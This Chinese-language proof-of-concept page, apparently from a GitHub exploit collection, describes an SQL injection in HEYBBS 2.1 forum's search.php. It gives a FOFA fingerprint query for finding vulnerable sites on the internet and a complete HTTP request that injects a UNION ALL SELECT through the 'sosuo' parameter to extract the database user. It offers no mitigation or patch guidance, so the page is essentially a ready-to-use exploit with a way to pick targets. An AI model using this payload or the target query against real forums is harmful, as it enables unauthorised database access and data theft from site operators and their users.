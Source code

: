 # HEYBBS2.1论坛search.php存在sql注入漏洞

HEYBBS2.1论坛在search.php接口下存在sql注入漏洞

## fofa

```javascript
Body="微社区, 微论坛, 微博客"
```

## poc

```javascript
GET /search.php?sosuo=qq%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,CONCAT(0xc,user(),0xc),NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://fofa.info/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache


```
